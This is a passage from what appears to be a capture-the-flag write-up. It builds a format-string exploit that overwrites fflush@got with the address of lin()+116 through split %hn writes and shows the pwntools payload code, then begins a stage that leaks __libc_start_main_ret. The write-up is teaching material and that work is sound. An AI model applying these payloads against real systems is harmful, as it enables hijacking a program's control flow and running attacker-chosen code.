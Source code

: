 Execute that and we get it changed as follows:

![test_2_higher_bytes.png](images/test_2_higher_bytes.png)

We can see that 2 higher bytes will take the number of byte before it, which is currently `0xe578` bytes with 1 byte from `%c` before `%hn`. So we just take the higher byte and subtract with 2 lower byte and write to fflush@got. 

There is one problem, if the 2 higher bytes is lower than 2 lower bytes, the subtraction will lead to a negative number. To avoid that, we will write add the 2 higher byte with `0x10000` and with `%hn`, the number `1` in the third byte will not be written. So after we split the address of `lin()+116`, we will add this check:

```
lin_addr_middle_hex = hex(exe.sym['lin'] + 116)
part1 = int(lin_addr_middle_hex[-4:], 16)        # Lower bytes
part2 = int(lin_addr_middle_hex[-8:-4], 16)      # Higher bytes
if part2<part1:
    part2 += 0x10000
```

And we will write 2 higher bytes with the following code:

```
payload = p32(exe.got['fflush'])
payload += b'PPPP'
payload += p32(exe.got['fflush']+2)
payload += b'%c'*5
payload += '%{}c%hn'.format(part1-17).encode()
payload += '%{}c%hn'.format(part2-part1).encode()
p.sendlineafter(b'But....', payload)
p.recvline()
```

After executed script, we can see that we changed the fflush@got successfully:

![changed_successfully.png](images/changed_successfully.png)

That's pretty good! Let's move on next stage: Leak `__libc_start_main_ret` address

### Stage 2: Leak `__libc_start_main_ret` address

Because it's just a leak and doesn't require us to change any thing so I will include the code to leak the `__libc_start_main_ret` address inside the payload to overwrite fflush@got. But first, let's check where is `__libc_start_main_ret` placed at printf():
